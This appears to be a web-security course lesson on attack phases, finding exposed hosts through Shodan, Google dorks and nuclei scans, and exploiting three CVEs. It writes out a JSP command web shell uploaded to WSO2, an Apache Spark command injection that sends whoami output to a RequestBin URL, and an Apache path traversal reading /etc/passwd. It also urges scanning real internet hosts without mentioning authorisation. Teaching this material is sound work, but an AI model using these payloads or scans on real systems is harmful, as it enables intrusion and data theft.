This type of reconnaissance is used to collect information about the target network architecture, firewall, or intrusion detection software and is very useful to develop attack vectors and information about the operating system of the target or configurations.

Mainly, the tool used are:

+ [nmap](https://nmap.org) - reveal how data flows through the network by mapping the topology of the various hosts, servers, routers,

+ [gobuster](https://github.com/OJ/gobuster) - bruteforce URLs, DNS subdomains, virtual host names

+ [wfuzz](https://github.com/xmendez/wfuzz) - bruteforce Web Applications, used to find resources like directories, servlets, scripts.
It can also bruteforce GET and POST parameters for checking different kinds of injections (SQL, XSS, etc)

+ [openvas-scanner](https://github.com/greenbone/openvas-scanner) - vulnerability scanner

## Phase two: Weaponization

After the reconnaissance step, the attackers start to develop various techniques to penetrate the target defense: this includes phishing techniques, creating fake websites, developing software and hardware exploits, and creating or acquiring new malware.

## Phase three: Gaining Access

The gaining access step could include an employee who fell into a phishing attack or it could be the attack based on a new vulnerability that appeared and is unpatched.
Also, an attacker could find some access pages like a login page on a website and starts to brute force the credentials.
This phase includes the sending of a malicious payload to the application through the network trying to trigger the vulnerability using buffer overflows attacks, injection attacks abusing components with known vulnerabilities.

## Phase four: Maintaining access

This involves the processes used to ensure the attacker can access the application for future use.
Once an attacker has access to a system, his objectives are to escalate privileges and maintain the access.
The ability to run privileged commands allows attackers to maintain their presence using a variety of methods:

+ Creating new user accounts

+ Editing firewall settings

+ Turning on remote desktop access (RDP)

+ Installing a backdoor via [rootkits](https://en.wikipedia.org/wiki/Rootkit)

## Phase five: Clearing Tracks

This includes the step of uninstalling the programs used during the attack and deleting any created folders, modifying the timestamps and deleting and modifying the logs files.
The attacker would change their MAC address and run the attacking machine through at least one VPN to help cover their identity.

# How to find targets in the wild
## Find targets using shodan.io
As presented to you in another session, **[shodan.io](https://www.shodan.io/dashboard)** is a powerful search engine that can help you to find vulnerable targets on the internet, using different search queries.
A search query can contain, for example, the name of the product like a simple ```weblogic``` which represents the name of the WebLogic server developed by Oracle.


But we can also use more specific queries to find targets that interest us. You can also specify the port numbers inside the shodan query, using the ```port:``` filter.
Knowing that [WSO2](https://wso2.com) the default HTTP and HTTPS ports of a WSO2 product are 9763 and 9443 respectively, we can try to use the ```WSO2 port:9443,9763``` query, you can find some [WSO2](https://wso2.com) targets across the internet.


Another way to find vulnerable targets is the **favicon hash**.
Favicon is the shortand for favourite icon. It is used as a shortcut to other webpages.
Browsers that use these icons usually display them in the address bar, as well as in the history.


You can find the favicon hash of an website, using the [FaviconHash website](https://faviconhash.com). For example, let's find out the favicon hash of the github.com website.


Now, we can use the ```http.favicon.hash:1848946384``` filter to find some GitHub based web-sites.


As you can see, we now have more than 700 results of potential vulnerable applications.
Note that in order to use Shodan filters (http.favicon.hash) you must be logged in.

## Find targets using Google Dorks

Google Dorks involves using advanced operators in the Google search engine to locate specific errors of text within search results.
Common cases of using Google Dorks are finding specific versions of vulnerable Web applications.
Taking the previous example, we want to find some vulnerable versions of the WSO2 product after the release of the [CVE-2022-29464](https://www.trendmicro.com/en_us/research/22/e/patch-your-wso2-cve-2022-29464-exploited-to-install-linux-compatible-cobalt-strike-beacons-other-malware.html) so we will use Google Dorks, knowing the vulnerable endpoints of the vulnerable product.

```
inurl:"/carbon/admin/login.jsp"
inurl:"/authenticationendpoint/login.do"
inurl:"devportal/apis"
intitle:"API Publisher- Login"
intitle:"WSO2 Management Console"
```


## Use automation to find vulnerable targets with Nuclei

[Nuclei](https://github.com/projectdiscovery/nuclei) is an important open-source tools used to find vulnerable targets, based on flexible templates written in yaml, which offers to scan for multiple protocols (HTTP, TCP, DNS, ...).

The templates can be found inside the [nuclei-templates](https://github.com/projectdiscovery/nuclei-templates/tree/master/cves) github page, sorted by the CVE release year.

### Download shodan findings

#### Manually download data

Taking the same previous CVE-2022-29464 as an example, we can use our shodan.io results to find if the targets found in the wild are vulnerable.

First we need to download the results of the [shodan search used for the WSO2 targets](https://www.shodan.io/search?query=WSO2+port%3A9443%2C9763): just press the Download Results button and wait for the ```.json.gz``` file to be downloaded then unzip it using ```gzip -d <finding>.json.gz```


Our main interests of the ```<finding>.json.gz``` are the IP:PORT fields of every resulted information of the target; so the first approach is to extract these two fields, using [jq](https://stedolan.github.io/jq/) Linux utility - a sed for JSON data.

Using the following command, we will have a list with an IP associated with a PORT.

```cat <extracted_finding>.json | jq -r '. | "\(.ip_str):\(.port)"' && sed -i -e 's/^/https:\/\//' targets.txt```

#### Download data using the API

Another approach is to use the shodan [API](https://help.shodan.io/guides/how-to-download-data-with-api), which helps you to download data.

You can use the following commands to download the data:

```
shodan init <API_KEY>
shodan count WSO2 port:9443,9763
shodan download targets.json.gz WSO2 port:9443,9763 [--limit 1000]
gzip -d targets.json.gz
shodan parse targets.json --fields=ip_str,port > targets.txt
```

### Get nuclei in action

Now, having the targets inside the ```targets.txt``` file, we can start using nuclei.

The first step is to install the tool from the [public github page](https://github.com/projectdiscovery/nuclei).

After the installation is completed, as we said, we will choose to scan targets vulnerable to the CVE-2022-29464, so we will download the specific [```CVE-2022-29464.yaml```](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-29464.yaml) file.

```nuclei -t CVE-2022-29464.yaml -l targets.txt```

We can see that our target was found vulnerable by nuclei.


# CVEs exploitation

## CVE-2022-29464

We didn't talk at all about how this vulnerability works; the main idea is that the vulnerable WSO2 products allow unrestricted file upload which results in remote code execution.
This means that we can upload any file on the server.
The main approach to succeed the vulnerability inside the WSO2 is to do a POST request which tries to upload a [web shell file](https://www.upguard.com/blog/what-are-web-shell-attacks) in JSP format on the target system.

This web shell enables the target to be remotely accessed by the attacker, which can run commands on the system
After this POST request is made, another GET request to the web shell path endpoint to check if the vulnerability was successfully exploited.

```yaml
requests:
  - raw:
      - |
        POST /fileupload/toolsAny HTTP/1.1
        Host: {{Hostname}}
        Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
        Content-Length: 348
        -----------------------------250033711231076532771336998311
        Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp";filename="test.jsp"
        Content-Type: application/octet-stream
        <% out.print("WSO2-RCE-CVE-2022-29464"); %>
        -----------------------------250033711231076532771336998311--
      - |
        GET /authenticationendpoint/{{to_lower("{{randstr}}")}}.jsp HTTP/1.1
        Host: {{Hostname}}
```

We know that one of the vulnerable endpoint is the ```../../../../repository/deployment/server/webapps/authenticationendpoint/``` endpoint.
So, the main idea is to send a **POST** request containing a web shell, which let us to send commands on the system: to craft a request like the one inside the ```.yaml``` file we will use Burp Suite.

First, turn on the Intercept and catch a request to the ```/carbon``` endpoint, using the Chromium browser. Access the ```https://<IP>:9443/carbon``` from the Chromium Browser.


Now, send the caught request to Repeater, using the **Ctrl+R** keyboard shortcut; this allows us to modify the request, trying to replicate the request that will succeed to our exploitation.


As we said before, we can upload any file on the WSO2 server -- we want a file that can interpret commands: we will try to upload a web shell jsp file with the following content:

```jsp
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr);
                disr = dis.readLine();
                }
        }
%>
</pre>
</BODY></HTML>
```

Let's modify the request and send a new request containing the web shell file having the name ```sss.jsp```.
This file will be uploaded at the ```/authenticationendpoint/sss.jsp``` endpoint.


Right now we have an uploaded file situated on the ```https://<IP>:9443/authenticationendpoint/sss.jsp```.
Accessing that web-page, we can see that we have a prompted form where we can insert commands.


## CVE-2022-33891

[Apache Spark](https://spark.apache.org) is an open-source, distributed processing system used for big data workloads and it utilizes in-memory caching, and optimized query execution for fast analytic queries.
Apache Spark also provides a suite of web user interfaces (UI) that you can use to monitor the status and resource consumption of your Spark cluster.

Past week, there was found a new vulnerability inside the Apache Spark Web UI component: a shell command injection vulnerability. This vulnerability affects the ```?doAs``` parameter, allowing an unauthenticated attacker to execute commands on the target system.
The command injection occurs because Spark checks the group membership of the user passed in the ```?doAs``` parameter by using a raw Linux command.

The payload is pretty simple, you need to specify a command to run between the '`' characters, using the ```doAs``` parameter.

```
curl -X "GET" http://<IP>:8080/?doAs=`<command_to_execute>`
```

The backtick is the start of an instruction to bash to evaluate what you type as a command. Everything you type between backticks (`) is evaluated  by the shell before the main command and the output of that execution is used by that command, just as if you'd type that output at that place in the command line.
So, the command between the backticks inside the URL will be firstly intepreted by our shell and then by the target shell.

To read the output of the command and to check if that command was executed on the vulnerable server, we will send a request to [RequestBin](https://requestbin.io).
[RequestBin](https://requestbin.io) gives you a URL that will collect requests made to it and let you inspect them in a human-friendly way.

You need just to create a subdomain by using the Create a RequestBin button:


Now you have an associated URL to your request bin and you can send requests to this URL getting all that information needed:

```
curl <REQUEST-BIN-URL>
```


To check if the server is vulnerable and the command was successfully executed, we would like the target server to communicate with our created logger: we will make the target to send a GET request to our REQUEST-BIN-URL.
We will introduce a curl command inside the backticks that we discussed before.

But first, we will encode it with base64 inside the URL and then execute it using bash command.

```
echo -n "curl <REQUEST-BIN-URL>" | base64
curl -X "GET" http://<IP>:8080/?doAs=`echo <base_64_string> | base64 -d | bash`
```


We can spot two GET requests as we have talked before: one request sent by our shell because of the backticks and another one interpreted by the target shell, meaning that the target is vulnerable.


But we will to extract some system information from the target, so we will try to execute a command and send it with curl. The ```-d``` parameter of curl will specify that we send a request with some data in it: that will be the output of the ```whoami``` command.

Because of the ```$(whoami)``` parameter that will be interpreted by bash, we can encode the string with base64 using python:

```python
python
import base64
base64.b64encode(b'curl -d $(whoami) <REQUEST-BIN-URL>')
```


```
curl -X "GET" http://<IP>:8080/?doAs=`echo <base_64_string> | base64 -d | bash`
```

We can see that we have got two GET requests in our Request Bin logger.
One of this contains the target username:


## CVE-2021-41773

An attacker could use a path traversal attack to map URLs to files outside the expected document root. We discussed about path traversal in [Session 2](https://github.com/security-summer-school/web/blob/master/cookies-session-management-access-control/index.md).
In Apache, if files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts.
The affected versions of Apache were Apache 2.4.49 & 2.4.50.

Path normalization mechanism of Apache HTTP Server 2.4.49, it does not properly neutralize sequences such as ".." so this will result in accessing files outside the current directory.
Using the ```%2e``` (which is the URL encoding of '.') inside the target URL, we can successfully run a path traversal attack:

```
curl http://<IP>:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```


# Further reading

1. [Shodan API](https://developer.shodan.io/api/clients)

2. [Web Shells](https://www.acunetix.com/blog/articles/introduction-web-shells-part-1/)

3. [How WSO2 CVE-2022-29464 works](https://github.com/tufanturhan/wso2-rce-cve-2022-29464)

4. [Apache Spark CVE-2022-33891](https://securityonline.info/cve-2022-33891-apache-spark-shell-command-injection-vulnerability/)

5. [Apache CVE-2021-41773](https://www.picussecurity.com/resource/blog/simulate-apache-cve-2021-41773-exploits-vulnerability)
